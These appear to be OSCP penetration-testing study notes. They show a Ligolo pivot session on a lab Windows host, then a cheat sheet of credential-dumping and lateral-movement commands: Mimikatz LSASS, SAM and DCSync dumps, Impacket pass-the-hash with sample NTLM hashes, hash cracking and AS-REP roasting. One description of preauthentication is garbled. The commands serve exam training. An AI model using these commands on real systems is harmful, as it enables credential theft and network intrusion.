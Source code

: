       ? Specify a session : 1 - OSCP\eric.wallows@MS01 - 192.168.196.141:53221 - 005056ab5090
      [Agent : OSCP\eric.wallows@MS01] » ifconfig
      ┌───────────────────────────────────────────────┐
      │ Interface 0                                   │
      ├──────────────┬────────────────────────────────┤
      │ Name         │ Ethernet0                      │
      │ Hardware MAC │ 00:50:56:ab:50:90              │
      │ MTU          │ 1500                           │
      │ Flags        │ up|broadcast|multicast|running │
      │ IPv4 Address │ 192.168.196.141/24             │
      └──────────────┴────────────────────────────────┘
      ┌───────────────────────────────────────────────┐
      │ Interface 1                                   │
      ├──────────────┬────────────────────────────────┤
      │ Name         │ Ethernet1                      │
      │ Hardware MAC │ 00:50:56:ab:8f:98              │
      │ MTU          │ 1500                           │
      │ Flags        │ up|broadcast|multicast|running │
      │ IPv4 Address │ 10.10.156.141/24               │
      └──────────────┴────────────────────────────────┘
      ┌──────────────────────────────────────────────┐
      │ Interface 2                                  │
      ├──────────────┬───────────────────────────────┤
      │ Name         │ Loopback Pseudo-Interface 1   │
      │ Hardware MAC │                               │
      │ MTU          │ -1                            │
      │ Flags        │ up|loopback|multicast|running │
      │ IPv6 Address │ ::1/128                       │
      │ IPv4 Address │ 127.0.0.1/8                   │
      └──────────────┴───────────────────────────────┘
      ```
- MS01 can access the internal 10.10.156.141/24 network  
- From **kali** terminal: Add a route for Ligolo to route traffic through the tunnel and reach the target network  
  `sudo ip route add <Internal_Network> dev ligolo`  
  E.g `sudo ip route add 10.10.156.0/24 dev ligolo`  
- Back to **Ligolo** terminal: start the tunnel and go the jump box  
  `[Agent : OSCP\eric.wallows@MS01] » start`
- You can nmap  

# Top tools and command  
1. **hashcat**: Cracking NTLM / Kerberos hashes  
   `hashcat -m 1000 hash.txt rockyou.txt`  
3. **Mimikatz** (Need system privilege - Credential Dump)  
   `C:\tools\mimikatz\ > .\mimikatz.exe`  
   `mimikatz # privilege::debug`  #elevate privileges
   -  `sekurlsa::logonpasswords`  #dump live credentails from LSASS
   -  `lsadump::sam`              #dump local SAM hashes
   -  `lsadump::dcsync /domain`   #dump all domain hashes via DCSync 
4. **impacket** (Windows/AD/SMB/Kerberos)  
   `kali@kali:~$ /usr/bin/impacket-xxxx`  
   - **psexec**: Executes commands remotely (get shell) using SMB & admin credentials  
     `Impacket-psexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.50.212`    
   - **wmiexec**: Alternative to psexec if SMB blocked  
     `impacket-wmiexec -debug -hashes 00000000000000000000000000000000:160c0b16dd0ee77e7c494e38252f7ddf CORP/Administrator@192.168.50.248`  
     `impacket-wmiexec -hashes :2892D26CDF84D7A70E2EB3B9F05C425E Administrator@192.168.127.72`  
   - **GetNPUsers**: Retrieve user account hashes without knowing their password (Do not require Kerberos preauthentication-disabled)    
     `impacket-GetNPUsers -dc-ip 192.168.50.70  -request -outputfile hashes.asreproast corp.com/pete`